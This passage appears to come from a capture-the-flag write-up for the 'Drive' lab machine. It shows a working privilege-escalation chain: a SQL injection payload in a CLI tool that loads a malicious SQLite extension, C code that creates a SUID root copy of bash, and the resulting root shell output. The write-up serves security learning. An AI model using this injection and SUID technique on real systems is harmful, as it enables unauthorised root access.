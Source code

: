 Now from `/dev/shm` (so that `./p.so` works), I'll run
`doodleGrive-cli`. After authenticating, I'll select 5 and give the
injection:



    Select option: 5
    Enter username to activate account: "+load_extension(char(46,47,112));-- -
    Activating account for user '"+load_extension(char(46,47,112))---'...
    uid=0(root) gid=0(root) groups=0(root),1003(tom)

    doodleGrive cli beta-2.2: 
    1. Show users list and info
    2. Show groups list
    3. Check server health and status
    4. Show server requests log (last 1000 request)
    5. activate user account
    6. Exit
    Select option:



It ran `id`!

#### Shell

I'll update my `poc.c` to make a copy of `bash` and set it as
SetUID/SedGID (I like this better than just changing `/bin/bash` as to
not accidentally spoil for other players).



    #include <stdlib.h>
    void sqlite3_extension_init() {
        system("/bin/cp /bin/bash /tmp/0xdf");
        system("/bin/chmod 6777 /tmp/0xdf");
    }



I'll compile that over `p.so` and run the exploit again. Now there's a
SetUID/SetGID binary at `/tmp/0xdf`:



    tom@drive:/dev/shm$ ls -l /tmp/0xdf 
    -rwsrwsrwx 1 root root 1183448 Feb 14 22:25 /tmp/0xdf



Running with `-p` (to not drop privs) gives a root shell and the flag:



    tom@drive:/dev/shm$ /tmp/0xdf -p
    0xdf-5.0# id
    uid=1003(tom) gid=1003(tom) euid=0(root) egid=0(root) groups=0(root),1003(tom)
    0xdf-5.0# cat /root/root.txt
    641e7a5b************************



### Via Format String / BOF
